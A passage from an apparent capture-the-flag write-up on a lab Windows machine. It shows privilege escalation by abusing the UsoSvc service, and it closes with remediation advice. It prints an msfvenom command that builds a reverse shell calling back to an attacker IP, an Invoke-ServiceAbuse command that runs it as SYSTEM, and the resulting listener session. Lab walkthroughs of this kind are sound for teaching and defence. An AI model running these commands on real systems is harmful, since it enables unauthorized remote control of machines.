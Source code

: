 {{< /highlight >}}

The current user is able to stop and restart the **UsoSvc** service. The serivce is running as Local System! I can leverage this misconfiguration in order to execute a command of my choice and have it executed with highest privileges.

I create a reverse shell with msfvenom and upload it on the target machine under C:\Windows\Temp:

{{< highlight html >}}
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f exe --platform windows > rev.exe
{{< /highlight >}}

I just have to launch the AbuseFunction after having set up the nc listener on port 4444:

{{< highlight html >}}
Invoke-ServiceAbuse -ServiceName 'UsoSvc' -Command "C:\Windows\Temp\rev.exe 10.10.14.12 4444 -e cmd.exe"
{{< /highlight >}}

Here is the root shell:

{{< highlight html >}}
nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.180] 49708
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
{{< /highlight >}}


## Lessons learned and remediations

- The webserver Administrator should not have exposed a mount share publicly. It was the first step which made possible to identify admin credentials for the application. Only expose what is striclty necessary!
- A low privilged user was able to manipulate a process running as Local System. This is a security misconfiguration and should be fixed as soon as possible. 

